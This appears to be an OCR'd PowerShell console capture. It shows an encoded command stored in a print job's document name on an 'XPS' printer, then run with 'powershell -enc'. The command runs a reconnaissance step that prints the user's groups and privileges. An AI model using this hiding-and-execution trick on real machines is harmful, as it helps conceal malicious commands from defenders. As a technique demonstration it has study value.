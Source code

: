 ```
DeviceType                   : Print
PermissionSDDL               :
RenderingMode                :
KeepPrintedJobs              : False
Priority                     : 1
DefaultJobPriority           : 0
StartTime                    : 0
UntilTime                    : 0
PrinterStatus                : Normal
JobCount                     : 0
DisableBranchOfficeLogging   :
BranchOfficeOfflineLogSizeMB :
WorkflowPolicy               :

PS C:\Users\regular> ((get-printjob XPS).documentname -join "")
WwBzAGMAcgBpAHAAdABiAGwAbwBjAGsAXQAkAHgAPQB7AHcAaABvAGEAbQBpACAALwBhAGwAbAA7AGgAbwBzAHQAbgBhAG0AZQB9ADsAJAB4AC4AaQBuAHYAbwBrAGUAKAApAA==

PS C:\Users\regular> powershell -enc ((get-printjob XPS).documentname -join "")

USER INFORMATION
----------------

User Name               SID
======================= ==============================================
desktop-printingfun\regular S-1-5-21-1829223926-2430627930-1039442773-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users          Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
```